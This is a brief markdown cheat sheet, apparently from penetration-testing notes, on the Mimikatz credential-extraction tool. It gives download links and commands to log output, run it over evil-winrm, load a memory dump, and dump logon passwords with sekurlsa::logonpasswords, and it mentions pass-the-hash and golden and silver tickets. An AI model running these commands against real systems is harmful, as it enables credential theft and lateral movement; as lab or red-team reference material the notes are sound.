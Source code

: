 # Mimikatz
Tool used to extract credentials. Used for pass the hash, pass the golden ticket, pass the silver ticket. 
https://github.com/gentilkiwi/mimikatz
Download:
https://github.com/gentilkiwi/mimikatz/releases

### Commands/output > output file
```
log file.log
```

### Running mimikatz via evil-winrm
```
.\mimikatz.exe "{command}" exit
```

### Read from a memory dump 
```
sekurlsa::minidump {filename .dump}
```

### Get logon passwords 
```
sekurlsa::logonpasswords
```

